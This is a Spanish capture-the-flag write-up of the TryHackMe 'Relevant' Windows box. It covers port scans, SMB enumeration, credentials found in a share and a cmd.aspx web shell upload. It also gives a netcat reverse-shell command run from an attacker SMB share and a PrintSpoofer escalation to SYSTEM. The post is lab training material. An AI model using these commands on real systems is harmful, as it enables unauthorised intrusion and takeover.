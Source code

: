 ```yaml
---
layout: post
title:  "☣THM☣ Relevant"
date:   2021-05-14 7:21:00 +0200
last_modified_at: 2021-05-14 07:21:29 +0200
toc:  true
tags: [ctf, windows, Tryhackme, Walkthrough, SeImpersonatePrivilege]
categories: Tryhackme
---
```


{: .message}

Es una maquina windows interesante en la parte inicial y en la escalada que puede presentar un reto.
## Enumeracion
*Puertos:*
```plaintext
80/tcp   --> Microsoft IIS httpd 10.0
135/tcp  --> Microsoft Windows RPC
139/tcp  --> Microsoft Windows netbios-ssn
445/tcp  --> Windows Server 2016 Standard Evaluation 14393 
3389/tcp --> Microsoft Terminal Services
```
### Nmap
*Para escanear todos los puertos rapido:*
```bash
nmap -p- -sT --min-rate 5000  10.10.89.170 -oG Scanport1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-13 20:26 EDT
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 6.97% done; ETC: 20:27 (0:00:40 remaining)
Nmap scan report for 10.10.89.170
Host is up (0.15s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 40.94 seconds
```

*Escaneo mas exhaustivo:*

```bash
# Nmap 7.91 scan initiated Thu May 13 20:35:05 2021 as: nmap -sC -sV -p80,135,139,445,3389 -oN Scanport2 10.10.89.170
Nmap scan report for 10.10.89.170
Host is up (0.17s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2021-05-13T23:35:20+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2021-05-12T23:22:38
|_Not valid after:  2021-11-11T23:22:38
|_ssl-date: 2021-05-13T23:36:01+00:00; -59m59s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 24m00s, deviation: 3h07m50s, median: -59m59s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-13T16:35:20-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-13T23:35:21
|_  start_date: 2021-05-13T23:23:14

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 13 20:36:01 2021 -- 1 IP address (1 host up) scanned in 56.40 seconds
```

### Masscan

*Aqui hago uso de otra utilidad para confirmar lo que tengo y descartar falsos positivos:*

```bash
masscan -e tun0 --rate=500 -p 0-65535 10.10.173.246
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-05-14 21:58:30 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 445/tcp on 10.10.173.246                                  
Discovered open port 3389/tcp on 10.10.173.246                                 
Discovered open port 49667/tcp on 10.10.173.246
Discovered open port 49663/tcp on 10.10.173.246
```

### SMB enumeration

Carpeta compatida de interes: *nt4wrksv*

```json
smbmap -H 10.10.89.170 -u benji -p benji                                                 3s
[+] Guest session       IP: 10.10.89.170:445    Name: Relevant                                          
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        nt4wrksv                                                READ, WRITE
```

### Credentials

Estas fueron obtenidas de la carpeta compartida nt4wrksv

```plaintext
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

## SMB upload cmd.aspx

La idea es que si te metes por la web: http://ip:49663/nt4wrksv/passwords.txt puedes visualizar los archivos que se encuentra en el smb. Entonces teniendo esto claro la idea es subir una cmd.aspx. (Primero probe con la cmd.asp pero esta no me dio resultado y luego pase a la cmd.aspx)

Vemos como se nos muestra una cmd:
http://ip:49663/nt4wrksv/cmd.aspx 

## Shell inicial

Corremos un servidor de smb y luego tiramos de un archivo compartido que es nc.exe y nos lazamos una reverse:

```bash
\\10.9.206.201\share\nc.exe 10.9.206.201 4444 -e cmd.exe
```

```bash
listening on [any] 4444 ...
connect to [10.9.206.201] from (UNKNOWN) [10.10.173.246] 49887
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```


## PrivEsc

El primer comando siempre debe ser ```whoami /priv``` para saber los permisos que posee ese usuario:

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Aqui resalta el famoso SeImpersonatePrivilege, para la explotacion de dicho privilegio se hace tirando de este [binario](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

Ejecutamos el binario desde el directorio de bob:

```bash
\\10.9.206.201\share\PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\system32>
```

MACHINE PWNED!!!!!
